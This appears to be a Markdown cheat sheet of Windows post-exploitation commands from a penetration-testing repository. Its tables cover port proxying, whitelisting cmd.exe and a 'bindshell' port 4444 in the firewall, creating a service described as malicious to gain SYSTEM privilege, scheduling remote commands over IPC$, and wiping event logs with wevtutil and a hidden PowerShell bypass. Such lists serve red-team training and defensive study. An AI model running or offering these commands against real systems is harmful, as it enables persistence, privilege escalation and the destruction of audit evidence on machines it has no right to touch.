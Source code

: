 
## PROXY

|**Command**|**Description**|
|:----------|:--------------|
|NETSH INTERFACE portproxy add v4tov4 listenport=`LPORT` connectaddress=`RHOST` connectport=`RPORT` [listenaddress=`LHOST` protocol=tcp]|Transmit data from localport to remoteaddr:remoteport.|
|set http_proxy=http://your_proxy:your_port<BR>set http_proxy=http://username:password@your_proxy:your_port<BR>set https_proxy=https://your_proxy:your_port<BR>set https_proxy=https://username:password@your_proxy:your_port|Use proxy in command prompt|

## Whitelist

|**Command**|**Description**|
|:----------|:--------------|
|NETSH FIREWALL show all|Show Allowed programs configuration for Domain/Standard profile.|
|NETSH FIREWALL add allowedprogram `C:\Windows\system32\cmd.exe` `cmd` enable|Add a program into firewall allowedprogram Whitelist.|
|NETSH FIREWALL delete allowedprogram `cmd`|delete a item from firewall allowedprogram Whitelist, you can also use a path to delete it.|
|NETSH FIREWALL show all|Show Port configuration for Domain/Standard.|
|NETSH FIREWALL add portopening tcp `4444` `bindshell` enable all|add tcp port 4444 into port Whitelist.|

## Service

|**Command**|**Description**|
|:----------|:--------------|
|sc create `servicename` type= own type= interact binPath= "c:\windows\system32\cmd.exe /c cmd.exe" & sc start servicename|Create malicious services, and gain local system privilege.|

## Scheduler


|**Command**|**Description**|
|:----------|:--------------|
|net use \\\\`IP`\ipc$ `password` /user:`username`<BR>at \\\\`ComputerName` `time` "command"|The AT command schedules commands and programs to run on a computer at a specified time and date. `net time [/domain]` to show current time.|

## Logs

|**Command**|**Description**|
|:----------|:--------------|
|del %WINDIR%\*.log /a /s /q /f|Deletes all *.log files from the %WINDIR% directory.|
|wevtutil el|Lists the different log files the system is keeping.|
|for /f %a in ('wevtutil el') do @wevtutil cl "%a"|Clears the contents of a specific log.|
|powershell.exe -ep bypass -w hidden -c Clear-Eventlog -Log Application, System, Security|Clear specific event logs|

# Links
